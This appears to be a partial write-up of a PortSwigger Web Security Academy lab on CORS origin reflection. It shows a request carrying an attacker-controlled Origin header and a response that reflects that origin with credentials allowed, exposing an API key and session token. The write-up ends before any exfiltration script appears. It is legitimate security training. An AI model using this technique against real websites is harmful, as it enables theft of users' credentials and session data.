 # CORS (Cross-Origin Resource Sharing)

## Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

The first thing I wanted to do is allow my malicious website access to the victim website data and I did this with the below requesting (adding the origin header).

```
GET /accountDetails HTTP/1.1
Host: 0a6d00880499bce0c15b1885008a0098.web-security-academy.net
Cookie: session=6lxxFD1vansdviCCNt671U5UkFW9pti7
Origin: https://exploit-0a620047043fbc6dc13817cf01ad0011.exploit-server.net
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a6d00880499bce0c15b1885008a0098.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```


```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://exploit-0a620047043fbc6dc13817cf01ad0011.exploit-server.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "jXH9UYXSuAkHwCRR2Q6lXZdIwpnsENOS",
  "sessions": [
    "6lxxFD1vansdviCCNt671U5UkFW9pti7"
  ]
}

```
